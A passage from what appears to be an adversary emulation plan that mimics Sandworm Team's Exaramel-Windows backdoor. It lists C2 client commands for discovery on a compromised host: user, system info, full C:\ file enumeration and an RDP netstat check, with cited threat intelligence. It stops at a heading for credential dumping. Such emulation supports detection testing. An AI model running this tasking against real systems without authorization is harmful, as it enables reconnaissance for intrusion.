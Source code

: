 Place your cursor on the second pane in the control server window.

Run the following discovery commands:

Get current user.

```bash
# Sandworm Team has collected the username from a compromised host.

./evalsC2client.py --set-task Exaramel-Windows "get-user"
```

[Source Code](/Resources/Exaramel-Windows/taskhandler/taskhandler.go#L36)

Get Windows version info.

```bash
# Sandworm Team used a backdoor to enumerate information about the infected system's operating system.

./evalsC2client.py --set-task Exaramel-Windows "get-sysinfo"
```

[Source Code](/Resources/Exaramel-Windows/taskhandler/taskhandler.go#L46)

List entire file system.

```bash
# Sandworm Team has enumerated files on a compromised host.

./evalsC2client.py --set-task Exaramel-Windows "enum-files C:\\"
```

[Source Code](/Resources/Exaramel-Windows/taskhandler/taskhandler.go#L55)

Look for RDP connections.

```bash
# Sandworm Team had gathered user, IP address, and server data related to RDP sessions on a compromised host.

./evalsC2client.py --set-task Exaramel-Windows "exec-cmd netstat -ano | findstr 3389"
```

[Source Code](/Resources/Exaramel-Windows/taskhandler/taskhandler.go#L17)

### :microscope: Cited Intelligence

* https://www.justice.gov/opa/press-release/file/1328521/download

* https://www.welivesecurity.com/2016/12/13/rise-telebots-analyzing-disruptive-killdisk-attacks/

* https://www.welivesecurity.com/2017/07/04/analysis-of-telebots-cunning-backdoor/

<br>

### Step 17 - Credential Dumping

:microphone: `voice track`

During this step, Sandworm collects credentials.

